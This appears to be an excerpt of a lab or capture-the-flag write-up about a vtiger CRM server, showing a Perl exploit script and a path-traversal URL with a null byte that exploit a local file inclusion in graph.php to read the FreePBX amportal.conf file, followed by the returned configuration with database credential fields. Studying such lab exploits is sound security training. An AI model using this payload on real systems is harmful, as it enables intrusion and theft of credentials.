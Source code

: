 ```
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {
 
print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";
 
}
else { 
print "\n[-] not successful\n";
        }
```

We use the following URL to test the LFI:

```
https://10.10.10.7/vtigercrm//graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We get the amportal.conf file returned in our webbrowser with account + passwords details:

```
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License
#    along with FreePBX.  If not, see <http://www.gnu.org/licenses/>.
#
# This file contains settings for components of the Asterisk Management Portal
# Spaces are not allowed!
# Run /usr/src/AMP/apply_conf.sh after making changes to this file

# FreePBX Database configuration
# AMPDBHOST: Hostname where the FreePBX database resides
# AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
# AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
# AMPDBUSER: Username used to connect to the FreePBX database
# AMPDBPASS: Password for AMPDBUSER (above)
# AMPENGINE: Telephony backend engine (e.g. asterisk)
# AMPMGRUSER: Username to access the Asterisk Manager Interface
# AMPMGRPASS: Password for AMPMGRUSER
#
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
```